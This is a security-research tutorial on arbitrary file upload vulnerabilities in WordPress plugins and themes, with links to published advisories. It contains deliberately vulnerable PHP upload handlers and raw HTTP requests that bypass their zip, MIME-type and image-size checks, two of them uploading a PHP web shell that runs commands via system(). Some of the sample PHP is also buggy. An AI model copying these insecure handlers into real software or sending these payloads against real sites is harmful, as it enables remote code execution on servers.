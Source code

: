 ```yaml
---
title: Arbitrary File Upload
contributors:
    - rafiem
---
```

## Introduction

This article covers cases of possible Arbitrary File Upload on WordPress. This includes improper file input handling inside of the plugin/theme which can be used to arbitrarily upload files including `.php` files to further achieve Remote Code Execution (RCE).

## Files Input

The most common way to trace if a plugin/theme has a file handling from user input is via the `$_FILES` PHP variable. 

Another way that is most of the time missed by hackers is via [`WP_REST_Request::get_file_params`](https://developer.wordpress.org/reference/classes/wp_rest_request/get_file_params/) function. This function retrieves multipart file parameters from the body of a custom REST API route registered by the plugin/theme.


## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Upload vulnerability:

- PHP related
    - [move_uploaded_file](https://www.php.net/manual/en/function.move-uploaded-file.php)
    - [file_put_contents](https://www.php.net/manual/en/function.file-put-contents)
    - [fwrite](https://www.php.net/manual/en/function.fwrite)
    - [fputs](https://www.php.net/manual/en/function.fputs.php)
    - [copy](https://www.php.net/manual/en/function.copy.php)
    - [fputcsv](https://www.php.net/manual/en/function.fputcsv.php)
    - [rename](https://www.php.net/manual/en/function.rename.php)
- WordPress related
    - [WP_Filesystem_Direct::put_contents](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/put_contents/)
    - [WP_Filesystem_Direct::move](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/move/)
    - [WP_Filesystem_Direct::copy](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/copy/)

## Compressed File Extraction

One of the processes to upload a file is through an extraction of the compressed file. The compressed itself can vary from zip, gz, tar, rar, xz, 7z, etc. Most of the time, the developer forgets to implement a pre-check before the extraction process and it could lead to users uploading arbitrary files if the user can control the filename and the content of the extracted file.

Here are several functions that can be used to decompress a file:

- [`ZipArchive::extractTo`](https://www.php.net/manual/en/ziparchive.extractto.php)
- [`PharData::extractTo`](https://www.php.net/manual/en/phardata.extractto.php)
- [`unzip_file`](https://developer.wordpress.org/reference/functions/unzip_file/)

```php
add_action("wp_ajax_unpack_fonts", "unpack_fonts");

function unpack_fonts(){
    $file = $_FILES["file"];
    $ext = end(explode('.',$file_name));

    if($ext !== "zip"){
        die();
    }
    
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    move_uploaded_file($file["tmp_name"], $file_path);

    $zip = new ZipArchive;
    $f = $zip->open($file_path);

    if($f){
        $zip->extractTo(WP_CONTENT_DIR + "/uploads/");
        $zip->close();
    }

}
``` 

To bypass the above check we need to prepare a valid zip file and add a malicious PHP file inside the zip file. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=unpack_fonts HTTP/1.1
Host: localhost
Content-Length: 227
Cookie: <AUTHENTICATED_USER_COOKIE>
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.zip"
Content-Type: application/zip

<MALICIOUS_ZIP_METADATA>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--

```

## Bypass Techniques

Some of the conditions may make the file upload process secure, however, these specific conditions can still be bypassed to achieve an Arbitrary File Upload

### MIME Type Check

Developers often only check for the file's MIME content type before performing the upload process. This check alone is not enough to prevent Arbitrary File Upload since the attacker just needs to insert or append a malicious string like PHP code into a valid acceptable file MIME type.

Several functions could be used to check for a file's MIME type. Here are several functions that can be used to check for MIME type:

- [mime_content_type](https://www.php.net/manual/en/function.mime-content-type.php)
- [exif_imagetype](https://www.php.net/manual/en/function.exif-imagetype.php)
- [finfo_file](https://www.php.net/manual/en/function.finfo-file.php)

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_upload_image_check_mime", "upload_image_check_mime");

function upload_image_check_mime(){
    $file = $_FILES["file"];
    $file_type = mime_content_type($file["tmp_name"]);
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    
    if(in_array($file_type, get_allowed_mime_types())){
        move_uploaded_file($file["tmp_name"], $file_path);
        echo "file uploaded";
    }
    else{
        echo "file mime type not accepted";
    }

}
```

To bypass the above check we need to prepare a valid PNG file and append a malicious PHP code to the PNG file metadata. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:


```http
POST /wp-admin/admin-ajax.php?action=upload_image_check_mime HTTP/1.1
Host: localhost
Content-Length: 227
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/png

<PNG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--
```

### Image Related Check

Most of the file upload process is for an image type of file. Sometimes, developers only check for conditions that are related to an image file. One of the common functions to be used for image-related checks is [`getimagesize`](https://www.php.net/manual/en/function.getimagesize.php) function.

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_upload_image_getimagesize", "upload_image_getimagesize");

function upload_image_getimagesize(){
    $file = $_FILES["file"];
    $file_path = WP_CONTENT_DIR + "/uploads/" + $file["name"];
    $size = getimagesize($file["tmp_name"]);
    $fileContent = file_get_contents($_FILES['file']);

    if($size){
        file_put_contents($file_path, $fileContent);
        echo "image uploaded";
    }
    else{
        echo "invalid image size";
    }

}
```

To bypass the above check we need to prepare a valid image file and append a malicious PHP code to the image file metadata. Below is the example of a raw HTTP request to trigger the Arbitrary File Upload:

```http
POST /wp-admin/admin-ajax.php?action=upload_image_getimagesize HTTP/1.1
Host: localhost
Content-Length: 227
Connection: close

------WebKitFormBoundaryNSpLEsDZWYvEGYO1
Content-Disposition: form-data; name="file"; filename="pwn.php"
Content-Type: image/jpeg

<JPEG_IMAGE_METADATA>
<?php echo system($_GET["id"]); ?>
------WebKitFormBoundaryNSpLEsDZWYvEGYO1--
```

## Article References


Below are some of the findings related to Arbitrary File Upload:

- [AI Engine Plugin Affected by Critical Vulnerability](https://patchstack.com/articles/ai-engine-plugin-affected-by-critical-vulnerability/)
- [Multiple Vulnerabilities Patched in Themify Ultra Theme](https://patchstack.com/articles/multiple-vulnerabilities-patched-in-themify-ultra-theme/)
- [Critical Vulnerability in Elementor Affecting 5+ Million Websites](https://patchstack.com/articles/critical-vulnerability-in-elementor-affecting-5-million-websites/)
- [Pre-Auth Arbitrary File Upload in User Submitted Posts Plugin](https://patchstack.com/articles/pre-auth-arbitrary-file-upload-in-user-submitted-posts-plugin/)
- [Critical Arbitrary File Upload Patched in Forminator Plugin](https://patchstack.com/articles/critical-arbitrary-file-upload-patched-in-forminator-plugin/)
- [Multiple High and Critical Vulnerabilities in Avada Theme and Plugin](https://patchstack.com/articles/multiple-high-and-critical-vulnerabilities-in-avada-theme-and-plugin/)
- [Critical Vulnerabilities Patched in Jupiter X Core Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-jupiter-x-core-plugin/#unauthenticated-arbitrary-file-upload)